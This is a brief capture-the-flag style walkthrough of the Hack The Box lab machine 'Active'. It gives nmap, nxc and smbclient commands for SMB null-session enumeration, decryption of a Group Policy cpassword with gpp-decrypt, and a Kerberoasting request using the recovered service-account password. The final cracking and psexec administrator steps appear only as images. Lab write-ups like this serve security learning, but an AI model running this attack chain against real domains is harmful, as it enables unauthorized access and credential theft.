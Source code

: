 starting with nmap 
`sudo nmap -sC -sV -p- -oN active -T4 10.10.10.100`
![[Pasted image 20240525110417.png]]


smb null session is allowed , let's explore open shares
`nxc smb 10.10.10.100 -u '' -p '' --shares -M spider_plus
`
![[Pasted image 20240525110701.png]]
Groups.xml looks juicy
![[Pasted image 20240525110751.png]]


let's connect to this share ,and get this file

`smbclient -N \\\\10.10.10.100\\Replication -U ''`

we found cpassword , we can decrypt it using ==gpp-decrypt==
![[Pasted image 20240525110913.png]]

`gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
`
![[Pasted image 20240525111021.png]]

we got creds for thje SVC_TGS
![[Pasted image 20240525111146.png]]


let's try kerberoasting attack using the creds we found

`nxc ldap 10.10.10.100 -u 'active.htb\SVC_TGS' -p 'GPPstillStandingStrong2k18' --kerberoast kerberoasting`
![[Pasted image 20240525111243.png]]

let's try to crack it

![[Pasted image 20240525111411.png]]

we can now get psexec to get shell on the box as administrator 

![[Pasted image 20240525111519.png]]
